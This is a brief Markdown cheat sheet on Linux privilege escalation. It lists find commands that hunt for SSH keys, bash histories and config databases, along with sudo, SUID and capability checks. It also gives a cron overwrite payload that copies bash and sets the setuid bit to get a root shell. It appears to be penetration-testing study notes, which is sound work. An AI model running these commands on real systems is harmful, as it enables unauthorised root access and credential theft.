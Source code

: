# 3 privEsc (linux)

## Manual scanning

- Check for sensitive files.

```
find /home/ -name .bash_history 2> /dev/null
```

```
find /home/ -name .ssh 2> /dev/null
```

```
find / -name id_rsa 2> /dev/null 
```

- Check the web server directory for sensitive files.

```
find /var/www/ -name "*config*.*"
```

```
find /var/www/ -name "*.db"
```

- Check for readable hashes

```shell
ls -l /etc/shadow
```

- Check sudo commands.
You don't always need the user creds to run this escalation!

```shell
sudo -l
```

- Check group memberships.

```shell
id
```

- Check for files owned by a specific user

```shell
find / -user username 2> /dev/null
```

- Check `/etc/crontab` for interesting cronjobs. See if we can do malicious overwrites such as
```
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```

- Check files that have SUID bits set.

```shell
find / -perm -u=s -type f -ls 2>/dev/null
```

- Check for Linux capabilities

```shell
getcap -r / 2> /dev/null
```

- Check the environment variables of the shell. 
- Check if there are scripts or commands to are vulnerable to `PATH` manipulation.
- Check for kernel exploits.
  - Determine kernel version using `uname -a`.
  - Search exploit databases for match.
  - Run exploit.

## Automated scanning
- LinPeas [https://github.com/carlospolop/PEASS-ng](https://github.com/carlospolop/PEASS-ng).
- LinEnum [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum).

